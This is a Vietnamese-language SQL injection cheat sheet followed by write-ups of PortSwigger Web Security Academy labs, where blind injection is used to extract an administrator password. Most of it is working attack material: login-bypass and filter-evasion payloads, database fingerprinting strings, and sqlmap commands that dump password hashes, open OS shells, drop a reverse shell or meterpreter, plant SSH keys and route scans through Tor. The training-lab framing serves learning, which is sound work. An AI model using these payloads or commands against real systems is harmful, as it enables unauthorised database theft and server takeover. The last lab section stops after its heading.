

<h1>OverView</h1>

<a href="#Lab">Lab PortSwigger Here</a>
<h2>Cheat sheet</h2>

<table>
	<tr>
        <td></td>
        <td><center>Oracle</center></td>
        <td><center>Microsoft</center></td>
        <td><center>PostgreSQL</center></td>
        <td><center>MySQL</center></td>
        <td><center></center></td>
 	</tr>
	<tr>
        <td><center><b>Nối chuỗi</b></center></td>
        <td><center><b>'foo'||'bar'</b></center></td>
        <td><center><b>'foo'+'bar'</b></center></td>
        <td><center><b>'foo'||'bar'</b></center></td>
        <td><center><b>'foo' 'bar'<br>concat('foo','bar')</b></center></td>
	</tr>
	<tr>
        <td><center><b>Cắt chuỗi</b></center></td>
        <td><center><b>substr('foobar', 4, 2)</b></center></td>
        <td><center><b>substring('foobar', 4, 2)</b></center></td>
        <td><center><b>substring('foobar', 4, 2)</b></center></td>
        <td><center><b>substring('foobar', 4, 2)</b></center></td>
        <td><center><b>substring(chuỗi, vị trí bắt đầu, số ký tự)</b></center></td>
	</tr>
    <tr>
        <td><center><b>Comments</b></center></td>
        <td><center><b>--comment</b></center></td>
        <td><center><b>--comment<br>/*comment*/</b></center></td>
        <td><center><b>--comment<br>/*comment*/<br>#comment</b></center></td>
        <td><center><b>-- comment<br>/*comment*/</b></center></td>
    </tr>
    <tr>
        <td><center><b>Time delays</b></center></td>
        <td><center><b>dbms_pipe.receive_message(('a'),10)</b></center></td>
        <td><center><b>WAITFOR DELAY '0:0:10'</b></center></td>
        <td><center><b>select pg_sleep(10)</b></center></td>
        <td><center><b>select sleep(10)</b></center></td>
    </tr>
</table>

---
<h2>Các vị trí phổ biến xảy ra lỗi SQLi</h2>

- Câu lệnh <b>select</b>, trong tên bảng, hoặc tên cột
- Câu lênh <b>select</b>, trong mệnh đề <b>order by</b>
- Câu lệnh <b>insert</b>, trong các giá trị được chèn
- Câu kệnh <b>update</b>, trong các giá trị được cập nhập hoặc trong mệnh đề <b>where</b>

<h2>Detect Vul SQLI</h2>

```
admin'
admin' or 1=1
admin' or 1=1'-- -
admin' or 1=1/*
admin' or 1=1#
admin') or ('1'='1
admin') or ('1'='1')--
nối chuỗi: 
    admin''
    admin'||(select '')||'
'
%27
"
%22
#
%23
;
%3B
)
Wildcard (*)
&apos;  # required for XML content

Multiple encoding
    %%2727
    %25%27

Merging characters

    `+HERP
    '||'DERP
    '+'herp
    ' 'DERP
    '%20'HERP
    '%2B'HERP
```

<h2>ByPass Logic</h2>
<h4>Câu lệnh <b>SELECT</b></h4>

```sql
SELECT * FROM users WHERE username = 'admin'--' AND password = ''
SELECT * FROM products WHERE category = 'Gifts' ORDER BY 1--
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
SELECT * FROM Users WHERE ((Username='$username') AND (Password=MD5('$password')))
SELECT * FROM Users WHERE ((Username='1' or '1' = '1'))LIMIT 1/*') AND (Password=MD5('$password')))
(với Oracle sử dụng -- thay vì /*)
```
<h4>Câu lệnh <b>INSERT</b></h4>

```sql
INSERT INTO users (username, password, signature) VALUES ('xxx', 'yyy', 'zzz');
INSERT INTO users (username, password, signature) VALUES ('name','pass','sign')-- -, 'yyy', 'zzz');
INSERT INTO users (username, password, signature) VALUES ('name','pass',(select version()))-- -, 'yyy', 'zzz');
INSERT INTO users (username, password, signature) VALUES ('name','pass',(select password from mysql.user where user='root' limit 0,1))-- -, 'yyy', 'zzz');
```
<h4>Câu lệnh <b>UPDATE</b></h4>

```sql
UPDATE contacts SET Email="User@test.com" WHERE Name = 'User'
/*
Bằng cách thêm '-- có thể xóa mệnh đề WHERE khỏi câu lệnh UPDATE, đồng nghĩa là toàn bộ bảng đó bị update.
```

<h2>ByPass Filter</h2>

<h4>Hex Encoded</h4>

```sql
SELECT username FROM users WHERE isadmin = 2 union select name from sqlol.ssn where name='herp derper'--

=> SELECT username FROM users WHERE isadmin = 2 union select name from sqlol.ssn where name=0x4865727020446572706572--
```

<h4>Nỗi Chuỗi</h4>

```sql
Oracle:
    select full_name from info where phone = '1234'||'5678';
    select full_name from info where phone = '1234'||(select '5678' from dual)||'';
    select full_name from info where phone = '1234'||(select case when(1=1) then '5678' else to_char(1/0) end from dual)||''; -- => blind kích lỗi to_char(1/0)
    select full_name from info where phone = '1234'||(select '')||''
    
```

Weird characters

```sql
Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")
Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')
```

## DBMS Identification

```c
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```

## SQL injection using SQLmap

### Basic arguments for SQLmap

```powershell
sqlmap --url="<url>" -p username --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs
```

### Load a request file and use mobile user-agent

```powershell
sqlmap -r sqli.req --safe-url=http://10.10.10.10/ --mobile --safe-freq=1
```

### Custom injection in UserAgent/Header/Referer/Cookie

```powershell
python sqlmap.py -u "http://example.com" --data "username=admin&password=pass"  --headers="x-forwarded-for:127.0.0.1*"
The injection is located at the '*'
```

### Second order injection

```powershell
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

### Shell

```powershell
SQL Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --sql-shell

Simple Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-shell

Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-pwn

SSH Shell by dropping an SSH key
python sqlmap.py -u "http://example.com/?id=1" -p id --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/
```

### Crawl a website with SQLmap and auto-exploit

```powershell
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```

### Using TOR with SQLmap

```powershell
sqlmap -u "http://www.target.com" --tor --tor-type=SOCKS5 --time-sec 11 --check-tor --level=5 --risk=3 --threads=5
```

### Using a proxy with SQLmap

```powershell
sqlmap -u "http://www.target.com" --proxy="http://127.0.0.1:8080"
```

### Using Chrome cookie and a Proxy

```powershell
sqlmap -u "https://test.com/index.php?id=99" --load-cookie=/media/truecrypt1/TI/cookie.txt --proxy "http://127.0.0.1:8080"  -f  --time-sec 15 --level 3
```

### Using suffix to tamper the injection

```powershell
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```


<h2>Database</h2>

<h4>Version</h4>

```sql
Oracle: 
    SELECT BANNER FROM v$version
Microsoft: 
    SELECT @@version
PostgreSQL:
    SELECT version()
Mysql:
    SELECT @@version
SQlite:
    SELECT sqlite_version();
```
<h4>Tables, columns</h4>

```sql
Oracle:
    SELECT null FROM dual
    SELECT table_name FROM all_tables
    SELECT column_name FROM all_tab_columns
Mysql:
    SELECT SCHEMA_NAME from SCHEMATA; /*Kiệt kê databases*/
    SELECT column_name FROM information_schema.columns;
    SELECT table_name FROM information_schema.tables;
    SELECT column_name from information_schema.columns WHERE TABLE_NAME='name of table';
Sqlite:
    -- Liệt kê các bảng 
    select tbl_name as table_name from sqlite_schema;
    select name from sqlite_master where type='table';
    -- Liệt kê tất cả các cột (bao gồm các thuộc tính)
    pragma table_info('TableName');
    select * from pragma_table_info('TableName');
    -- liệt kê ra các cột (chỉ liệt kê ra tên cột, không bao gồm thuộc tính)
    SELECT name FROM pragma_table_info('TableName');
```

<h1>UNION</h1>

UNION là một toán tử tập hợp được sử dụng để kết hợp các kết quả của hai hoặc nhiều câu lệnh SELECT khác nhau thành một tập hợp duy nhất.

``` sql
SELECT column1 FROM table1
UNION
SELECT column1 FROM table2;
```

<h3>Cách sử dụng</h3>

- Các câu lệnh <b>SELECT</b> phải có cùng số lượng cột, và cùng thứ tự cột, các cột tương ứng có cùng kiểu dữ liệu
``` sql
SELECT order_id, order_date FROM orders
UNION
SELECT invoice_id, invoice_date FROM invoices;
```
- <b>UNION</b> loại bỏ các bản ghi trùng lặp trong kết quả cuối cùng. Nếu muốn bao gồm các bản ghi trùng lặp, sử dụng toán tử <b>UNION ALL</b> thay cho <b>UNION</b>
- <b>UNION</b> sắp xếp kết quả cuối cùng theo thứ tự mặc định dựa trên thứ tự xuất hiện của các bản ghi. Để chỉ định một thứ tự sắp xếp tùy ý sử dụng câu lệnh <b>ORDER BY</b>
```sql
SELECT id, title FROM books
UNION
SELECT id, title FROM magazines
ORDER BY 1;
```
```sql
ORDER BY column1, column2, ... [ASC|DESC];
; column1, column2, ... là các cột mà bạn muốn sắp xếp kết quả theo.
; ASC : tăng dần
; DESC : giảm dần
; order by 1: sắp xếp thứ tự theo cột đầu tiên.
; 
```
 
<h1 id="LAB">Lab PortSwigger</h1>

<h2><a href="https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses">Lab: Blind SQL injection with conditional responses</a></h2>

```
Mục tiêu: tìm được mật khẩu của administrator
lỗ hổng tại trackingId
```
Khi bắt đầu lab, thông báo <b>Welcome back!</b> chưa xuất hiện, theo solution của đề, cookie: <b>TrackingId</b> theo dõi người truy cập web.<br>

```sql
Néu sửa TrackingId=CbCFAAlBSnIZVjTH'+and+'1'='2 thì thông báo Welcome back! không xuất hiện
```
Chèn câu lệnh <b>select</b> kết hợp điều kiện <b>and</b>


```sql
TrackingId=CbCFAAlBSnIZVjTH'+and+(select+'a'+from+users+where+username='administrator')='a
Thông báo bao gồm Welcome back! => truy vấn đúng.
```
Sử dụng intruder kết hợp điều kiện <b>and</b> trong mệnh đề <b>where</b> tìm độ dài <b>password</b>
```sql
TrackingId=CbCFAAlBSnIZVjTH'+and+(select+'a'+from+users+where+username='administrator'+and+length(password)=§1§)='a
```


Sau khi tìm được độ dài password, sử dụng <b>substring</b> để dò từng ký tự.
```sql
TrackingId=4jAQadVcy9vkcMPq'+and+(select+substring(password,§1§,1)+from+users+where+username='administrator')='§a§;
```


=> Sắp xếp lại các ký tự của payload 2 theo thứ tự từ 1->20 của payload 1 ta sẽ nhận được mật khẩu.

---

<h2><a href="https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors">Lab: Blind SQL injection with conditional errors</a></h2>

```
Mục tiêu: tìm được mật khẩu của administrator
Hint: orcale
lỗ hổng tại trackingId
```
<h3>Xác định lỗi</h3>

Khi thêm dấu <b>'</b> server trả lỗi 500, đây là lỗi cú pháp trong Oracle
```sql
select * from NameTable where TrackingId='1llcoGOwdnKq7yLT''
-- thừa dấu '
```


```sql
Truy vẫn đúng sẽ phải như sau:
select * from NameTable where TrackingId='1llcoGOwdnKq7yLT'||''
Sử dụng nối chuỗi 1llcoGOwdnKq7yLT và chuỗi rỗng ''
```

<h4>Nhận xét</h4>
Khi cú pháp lỗi server sẽ trả về 500, cú pháp đúng sẽ trả về 200. Dựa vào điểm nhận dạng này có thể sử dụng kỹ thuật blind.

---
<h3>Khai thác</h3>

Lợi dụng có thể nối chuỗi, ta có payload sau:
```sql
select * from NameTable where TrackingId='1llcoGOwdnKq7yLT'||(select '' from dual)||''
Với TrackingId='1llcoGOwdnKq7yLT'||(select '' from dual)||'
```
Khi đó:


Sử dụng câu lệnh điều kiện <b>case</b>
```sql
trackingId='1llcoGOwdnKq7yLT'||(select case when(1=1) then to_char(1/0) else '' end from dual)||'
```
khi điều kiện <b>when(1=1)</b> đúng chuỗi <b>to_char(1/0)</b> được trả về, tuy nhiên 1 không chia được cho 0 nên <b>to_char(1/0)</b> sẽ bị lỗi với <b>statuscode = 500</b>. Nếu điều kiện when sai chuỗi rỗng '' được trả về với <b>statuscode = 200</b>.


<h3>Tiêm điều kiện kiểm tra độ dài password vào when</h3>

```sql
TrackingId=FLlU53TriGta5uwA'||(select case when length(password)>1 then to_char(1/0) else '' end from users where username='administrator')||'
```


<b>Đưa request vào Intruder để tìm độ dài password</b>


<br><b>Tìm được độ dài password = 20</b>

<h3>Tiêm điều kiện substring vào when</h3>

```sql
TrackingId=FLlU53TriGta5uwA'||(select case when substr(password,1,1)>'a' then to_char(1/0) else '' end from users where username='administrator')||'
```

<br><b>Mã trả về 500, chứng minh ký tự đầu tiên của password > 'a'</b>

<b>Đưa request vào Intruder để bruteforce password</b>



<b>Thu được kết quả</b>


<b>Sắp xếp payload 2 theo thứ tự từ 1-20 của payload 1 ta được đáp án:</b>

> password: o70al6gwp8exhfag36l1


<h2><a href="https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based">Lab: Visible error-based SQL injection</a></h2>

```
Mục tiêu: tìm được mật khẩu của administrator
lỗ hổng tại trackingId
```